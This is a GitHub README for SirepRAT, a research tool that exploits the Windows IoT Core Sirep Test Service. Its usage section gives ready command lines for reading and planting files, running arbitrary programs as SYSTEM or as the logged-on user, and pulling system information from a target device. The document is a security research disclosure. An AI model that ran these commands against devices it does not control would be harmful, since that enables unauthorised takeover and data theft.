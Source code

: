 # SirepRAT - RCE as SYSTEM on Windows IoT Core
**SirepRAT** Features full RAT capabilities without the need of writing a real RAT malware on target.

## Context

The method is exploiting the Sirep Test Service that’s built in and running on the official images offered at Microsoft’s site. This service is the client part of the HLK setup one may build in order to perform driver/hardware tests on the IoT device. It serves the Sirep/WPCon/TShell protocol.

We broke down the Sirep/WPCon protocol and demonstrated how this protocol exposes a remote command interface for attackers, that include RAT abilities such as get/put arbitrary files on arbitrary locations and obtain system information.

Based on the findings we have extracted from this research about the service and protocol, we built a simple python tool that allows exploiting them using the different supported commands. We called it SirepRAT.

It features an easy and intuitive user interface for sending commands to a Windows IoT Core target. It works on any cable-connected device running Windows IoT Core with an official Microsoft image.


## Slides and White Paper

Slides and research White Paper are [**in the docs folder**](https://github.com/SafeBreach-Labs/SirepRAT/tree/master/docs)


## Usage

#### Download File
```bash
python SirepRAT.py 192.168.3.17 GetFileFromDevice --remote_path "C:\Windows\System32\drivers\etc\hosts" -v
```

#### Upload File
```bash
python SirepRAT.py 192.168.3.17 PutFileOnDevice --remote_path "C:\Windows\System32\uploaded.txt" --data "Hello IoT world!"
```

#### Run Arbitrary Program
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\hostname.exe"
```  
With arguments, impersonated as the currently logged on user:
```bash
python SirepRAT.py 192.168.3.17 LaunchCommandWithOutput --return_output --as_logged_on_user --cmd "C:\Windows\System32\cmd.exe" --args " /c echo {{userprofile}}"
```  
(Try to run it without the _as_logged_on_user_ flag to demonstrate the SYSTEM execution capability)

#### Get System Information
```bash
python SirepRAT.py 192.168.3.17 GetSystemInformationFromDevice
```

#### Get File Information
```bash
python SirepRAT.py 192.168.3.17 GetFileInformationFromDevice --remote_path "C:\Windows\System32\ntoskrnl.exe"
```

#### See help for full details:
```bash
python SirepRAT.py --help
```

## Authors

**Dor Azouri** (@bemikre)

## License

[BSD 3](https://github.com/SafeBreach-Labs/AltFS/blob/master/LICENSE) - clause "New" or "Revised" License